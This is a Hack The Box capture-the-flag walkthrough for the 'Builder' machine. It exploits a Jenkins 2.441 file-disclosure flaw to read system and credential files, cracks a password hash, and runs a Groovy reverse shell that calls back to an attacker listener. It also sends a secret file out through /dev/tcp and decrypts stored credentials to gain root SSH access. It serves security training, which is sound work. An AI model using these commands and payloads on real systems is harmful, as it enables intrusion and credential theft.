# Builder -  from hackthebox
> link: https://app.hackthebox.com/machines/builder

--------------------------------------------------------

This box is between easy and medium difficulty in my opinion as it involves exploiting a CVE of older jenkins vulnerability which is *file disclosure* due to usage of **arg4j** library, we get the username and password for jenkins instance through that, root involves getting credentials which was already stored in the box, which gives us a ssh private key for root user, with that being said let's jump in.


## Nmap Scan
```bash
sudo nmap -sC -sT -sV -A -oN nmap/builder 10.10.11.10
```

results:
```
# Nmap 7.94SVN scan initiated Sat Mar  9 22:15:41 2024 as: nmap -sC -sT -sV -A -oN nmap/initial 10.10.11.10
Nmap scan report for 10.10.11.10
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/9%OT=22%CT=1%CU=40471%PV=Y%DS=2%DC=T%G=Y%TM=65EC9
OS:25C%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=107%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11NW7
OS:%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=FE88%W
OS:2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552NN
OS:SNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G
OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   336.66 ms 10.10.14.1
2   336.56 ms 10.10.11.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  9 22:16:20 2024 -- 1 IP address (1 host up) scanned in 39.17 seconds
```


## Enumeration:
We see that there are two ports open ssh (port 22)and a jenkins instance on 8080, browsing http://10.10.11.10:8080/ we get the version number of jenkins at bottom-right,




There are plenty of articles available by just searching version number on google about exploiting it, here is the link for security advisory for version 2.441
https://www.jenkins.io/security/advisory/2024-01-24/

> The file disclosure vulnerability exists because that version of jenkins uses args4j library to parse command line arguments, but when a command is preceeded with "@" symbol, it tries to read the contents of the file and displays it in its error, we can take the advantage of this mechanism to file disclosure vulnerability.

## Exploiting file disclosure vulnerability

Step 1: Downloading cli application to interact with the websocket,
```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```
Step 2: Executing it to read /etc/password as POC:
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/etc/passwd"
```
(connect-node argument is the safest and better option to exfil file contents)

BOOM! we get the contents,



## Initial Access

Let's try what service we are and what are the environment variables are held by our process
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/proc/self/cmdline"

java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/proc/self/environ"
```




We can grab the user flag just by knowing the home directory,
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/var/jenkins_home/user.txt"
```


### Creating lab environment of Jenkins in docker to get the file structure of jenkins
We will be using exact version which is 2.441 
```bash
docker pull jenkins/jenkins:2.441
docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.441
```

We grab the password shown on screen and set up jenkins on localhost:8080
We then get to the shell of the docker instance running
```bash
docker exec -it <docker id> /bin/bash
```



We find the users directory in /var/jenkins_home, where the creds are stored in <username_gibberish numbers>, whose filename can be found in users.xml


we exfil this data on real htb machine
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/var/jenkins_home/users/users.xml"
```
We get this, which may be different of what you will get
```
jennifer_12108429903186576833
```

We then try to get contents of this user's config file
```
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```



We store the hash in a file named hash
```bash
echo "$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a" > hash
```

let's crack this via hashcat
```bash
hashcat -m3200 hash /usr/share/wordlists/rockyou.txt
```

We get the password which is "princess"

We login to the jenkins with username of "jennifer" and password "princess"



We try to get reverse shell using groovy script
> Manage Jenkins > Script Console

```
String host="<ip>";int port=9001;String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

On host we set up a listener
```
nc -lnvp 9001
```

executing the script will invoke a shell connection for our listener



We use script to fix our tty



##  Rooting: Method 1

There is a file names credentials.xml which stores encrypted stored creds, we will try to crack that now
https://github.com/hoto/jenkins-credentials-decryptor
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```

The repo shows that the three files are necessary, credentials.xml, master.key and hudson.util.Secret

First two can be easily copied from reverse shell instance and stored on host, but hudson.util.Secret contains some non-printable characters so we directly send through linux network files

On box
```
cat hudson.util.Secret > /dev/tcp/<ip>/9001
```

On host
```
nc -lnvp 9001 > hudson.util.Secret
```

We will get all files required, so lets run the binary


```bash
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c credentials.xml -o text
```


we save the private key as root_idrsa and `chmod 600 root_idrsa` and get ssh connection as root as it is described username as root

```bash
ssh -i root_idrsa root@10.10.11.10
```

BOOM!! we are root



## Rooting: Method 2

We go to http://10.10.11.10:8080/manage/credentials/ and see the system credentials, and update credentials although it is redacted, we can get the private key by dev-tools available in all browsers



And following all remaining steps from previous method.

That's it, we have successfully compromised the box, Hope you enjoyed it, Until then goodbye!!

